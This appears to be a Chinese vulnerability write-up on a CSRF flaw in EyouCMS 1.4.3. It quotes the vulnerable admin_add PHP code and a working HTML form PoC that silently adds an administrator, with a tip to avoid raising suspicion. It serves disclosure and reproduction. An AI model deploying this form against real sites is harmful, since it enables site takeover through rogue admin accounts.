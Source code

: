 # Eyoucms 1.4.3 csrf漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2926](https://www.zhihuifly.com/t/topic/2926)

# Eyoucms 1.4.3 csrf漏洞

## 一、漏洞简介

可通过csrf漏洞添加管理员

## 二、漏洞影响

Eyoucms 1.4.3

## 三、复现过程

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

```
 public function admin_add()
 {
     $this->language_access(); // 多语言功能操作权限

```
 if (IS_POST) {
     $data = input('post.');

     if (0 &lt; intval(session('admin_info.role_id'))) {
         $this-&gt;error("超级管理员才能操作！");
     }

     if (empty($data['password']) || empty($data['password2'])) {
         $this-&gt;error("密码不能为空！");
     }else if ($data['password'] != $data['password2']) {
         $this-&gt;error("两次密码输入不一致！");
     }

     ...

     if (empty($data['pen_name'])) {
         $data['pen_name'] = $data['user_name'];
     }
     if (M('admin')-&gt;where("user_name", $data['user_name'])-&gt;count()) {
         $this-&gt;error("此用户名已被注册，请更换",url('Admin/admin_add'));
     } else {
         $admin_id = M('admin')-&gt;insertGetId($data);
         if ($admin_id) {
             adminLog('新增管理员：'.$data['user_name']);

             /*同步追加一个后台管理员到会员用户表*/
             try {
                 $usersInfo = Db::name('users')-&gt;field('users_id')-&gt;where([
                         'username'  =&gt; $data['user_name'],
                         'lang'      =&gt; $this-&gt;admin_lang,
                     ])-&gt;find();
                 if (!empty($usersInfo)) {
                     $r = Db::name('users')-&gt;where(['users_id'=&gt;$usersInfo['users_id']])-&gt;update([
                             'nickname'      =&gt; $data['user_name'],
                             'admin_id'      =&gt; $admin_id,
                             'is_activation' =&gt; 1,
                             'is_lock'       =&gt; 0,
                             'is_del'        =&gt; 0,
                             'update_time'   =&gt; getTime(),
                         ]);
                     !empty($r) &amp;&amp; $users_id = $usersInfo['users_id'];
                 } else {
                     // 获取要添加的用户名
                     ...

                     $users_id = Db::name('users')-&gt;insertGetId($AddData);
                 }
                 if (!empty($users_id)) {
                     Db::name('admin')-&gt;where(['admin_id'=&gt;$admin_id])-&gt;update([
                             'syn_users_id'  =&gt; $users_id,
                             'update_time'   =&gt; getTime(),
                         ]);
                 }
             } catch (\Exception $e) {}
             /* END */

             $this-&gt;success("操作成功", url('Admin/index'));
         } else {
             $this-&gt;error("操作失败");
         }
     }
 } 
``` 
```

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项>管理员>新增管理员点击之后截包

![image](img/c0114e965333c201d40f9dbd967a234d.png)

### poc

```
 <html>
 <!-- CSRF PoC - generated by Burp Suite Professional -->
 <body>
 <script>history.pushState('', '', '/')</script>
     <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
     <input type="hidden" name="user&#95;name" value="test" />
     <input type="hidden" name="password" value="test" />
     <input type="hidden" name="password2" value="test" />
     <input type="hidden" name="pen&#95;name" value="" />
     <input type="hidden" name="true&#95;name" value="" />
     <input type="hidden" name="mobile" value="" />
     <input type="hidden" name="role&#95;id" value="&#45;1" />
     <input type="submit" value="Submit request" />
     </form>
 </body>
 </html> 
```

模拟管理员点击

![image](img/6f29d8ae7cdf975e613ac1f725e70481.png)

添加完成

![image](img/a8263a53ff77639fc1daa27db8c60d73.png)